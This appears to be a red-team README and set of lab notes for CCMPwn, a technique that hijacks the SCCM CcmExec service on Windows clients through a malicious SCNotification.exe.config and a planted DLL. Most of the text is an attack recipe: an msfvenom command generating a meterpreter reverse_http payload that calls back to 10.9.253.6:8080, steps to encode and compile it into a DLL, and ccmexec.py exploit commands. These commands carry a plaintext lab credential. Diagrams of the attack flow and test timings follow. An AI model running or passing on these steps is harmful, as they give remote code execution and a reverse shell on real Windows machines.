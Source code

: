 # Process
- Generate C2 framework payload
  - sudo msfvenom -p windows/x64/meterpreter/reverse_http -f raw -o meterpeter.bin LHOST=10.9.253.6 LPORT=8080
- Encode to 64 bit payload
  - base64 meterpeter.bin > meterpeterb64
- Place encoded payload in AppDomainManager.cs POC
- Compile 'meterpeter.dll'
  - C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:meterpeter.dll AppDomainManager.cs
- Use meterpeter.config
  - Ensure `<appDomainManagerAssembly value="meterpeter">`
- Run status check
  - python3 ccmexec.py -debug sccmlab.local/sccmclientpush:cieph3Iehe7K@10.10.0.152 status
- Run exploit
  - python3 ccmexec.py -debug sccmlab.local/sccmclientpush:cieph3Iehe7K@10.10.0.152 exec -config templates/meterpeter.config -dll meterpeter.dll

## Troubleshooting
- Victim connectivity test
  - Test-NetConnection -Computername 10.9.253.6 -Port 8080

## Diagrams
### CCMPwn
![CCMPwn_process](image.png)

#### Mermaid
```mermaid
sequenceDiagram

    participant Attacker

    participant Victim

    participant SMS Server

    %% ->> SMB Connection
    %% -->> RPC Connection
    %% -> Notes

    %% Code
    Attacker->Attacker: Code Start
    Attacker-->>Victim: ncacn_np:%IP%\pipe\svcctl
    Attacker-->Victim: Kerberos or NTLM Auth
    Victim->Victim: RPC 'lpScHandle' for 'CcmExec'
    Attacker-->>Victim: Stop CC service
    Attacker->>Victim: Read/Download C$\Windows\CCM\SCNotification.exe.config
    Victim->>Attacker: 
    Attacker->>Victim: Overwrite malicious config
    Attacker->>Victim: Put malicious .dll 
    Attacker->Victim: Edit .dll permissions
    Attacker-->>Victim: Start CCM Service
    Victim-->Victim: SCNotification.exe Read/Execute SCNotification.exe.config **CONFUSED**
    Victim-->>Attacker: Payload executes
    Victim-->>SMS Server: DNS Query Site Server
```
### SharpSCCM vs CCMPwn
![SharpSCCM vs CCMPwn](image-1.png)

#### Mermaid
```mermaid
flowchart TB
    subgraph CCMPwn
        A[Attacker] -->|SMB Put File| V[Victim]
        V -->|Executes policy/script| E[Exploit]
    end

    subgraph SharpSCCM
        A2[Attacker] -->|WMI Policy Change to add script to device| SS[Site Server]
        SS -->|Communicates policy to device| V2[Victim]
        V2 -->|Executes policy/script| E2[Exploit]
    end
```

## Notes
sccmclientpush\ cieph3Iehe7K
Test1 (Dll w/no AppDomain, Fail)
09:09: Ran Exec
09:10:12 Start CCMExec Service
09:10:42 Cleanup SCNotification.exe.config


Test2
03:51:43 start 
3:52:06 start ccm
3:52:35scn run config

Test3 (Testing for callbacks/Sysmon logs)
04:05:18 start

Accounts:
sccmlab.local\Administrator


sccmlab.local\john
